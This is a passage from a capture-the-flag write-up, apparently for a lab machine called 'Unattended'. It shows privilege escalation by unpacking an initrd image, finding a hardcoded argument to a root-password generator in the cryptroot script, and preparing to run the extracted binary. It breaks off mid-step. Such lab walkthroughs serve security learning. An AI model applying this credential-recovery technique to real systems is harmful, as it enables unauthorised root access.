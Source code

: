 ```
guly@unattended:/tmp/initrd$ cpio -idvm < initrd.img-4.9.0-8-amd64
```
<br> After extracting it we get a lot of files :
```
guly@unattended:/tmp/initrd$ ls -la
ls -la
total 60664
drwxr-xr-x 11 guly guly      260 Aug 23 13:56 .
drwxrwxrwt 14 root root      300 Aug 23 13:57 ..
drwxr-xr-x  2 guly guly     3600 Aug 23 13:56 bin
drwxr-xr-x  2 guly guly       60 Aug 23 13:56 boot
drwxr-xr-x  3 guly guly      120 Aug 23 13:56 conf
drwxr-xr-x  5 guly guly      240 Aug 23 13:56 etc
-rwxr-xr-x  1 guly guly     5960 Apr 23  2017 init
-rw-r-----  1 guly guly 62110208 Aug 23 13:54 initrd.img-4.9.0-8-amd64
drwxr-xr-x  8 guly guly      180 Aug 23 13:56 lib
drwxr-xr-x  2 guly guly       60 Aug 23 13:56 lib64
drwxr-xr-x  2 guly guly       40 Aug 23 05:26 run
drwxr-xr-x  2 guly guly     1140 Aug 23 13:56 sbin
drwxr-xr-x  8 guly guly      220 Aug 23 13:56 scripts
guly@unattended:/tmp/initrd$ 
```
<br> Searching for `guly` in these files reveals this interesting comment in a script called `cryptroot` :
```
guly@unattended:/tmp/initrd$ grep -r guly *             
grep -r guly *
Binary file initrd.img-4.9.0-8-amd64 matches           
scripts/local-top/cryptroot:      # guly: we have to deal with lukfs password sync when root changes her one
```
<br> I checked that part of the script :
```
               if [ ! -e "$NEWROOT" ]; then
      # guly: we have to deal with lukfs password sync when root changes her one
      if ! crypttarget="$crypttarget" cryptsource="$cryptsource" \
        /sbin/uinitrd c0m3s3f0ss34nt4n1 | $cryptopen ; then
                                message "cryptsetup: cryptsetup failed, bad password or options?"
                                sleep 3
                                continue

```
<br> This line `/sbin/uinitrd c0m3s3f0ss34nt4n1 | $cryptopen` generates root password and pipes it to `$cryptopen`. We don't have permission to execute `uinitrd` :
```
guly@unattended:/tmp/initrd$ /sbin/uinitrd c0m3s3f0ss34nt4n1
/sbin/uinitrd c0m3s3f0ss34nt4n1
bash: /sbin/uinitrd: Permission denied
guly@unattended:/tmp/initrd$ 
```
<br> But in the extracted files we have the same binary and we can execute it :
```
guly@unattended:/tmp/initrd$ ls -la
ls -la
total 60664
drwxr-xr-x 11 guly guly      260 Aug 23 13:56 .
drwxrwxrwt 14 root root      340 Aug 23 14:02 ..
drwxr-xr-x  2 guly guly     3600 Aug 23 13:56 bin
drwxr-xr-x  2 guly guly       60 Aug 23 13:56 boot
drwxr-xr-x  3 guly guly      120 Aug 23 13:56 conf
drwxr-xr-x  5 guly guly      240 Aug 23 13:56 etc
-rwxr-xr-x  1 guly guly     5960 Apr 23  2017 init
-rw-r-----  1 guly guly 62110208 Aug 23 13:54 initrd.img-4.9.0-8-amd64
drwxr-xr-x  8 guly guly      180 Aug 23 13:56 lib
drwxr-xr-x  2 guly guly       60 Aug 23 13:56 lib64
```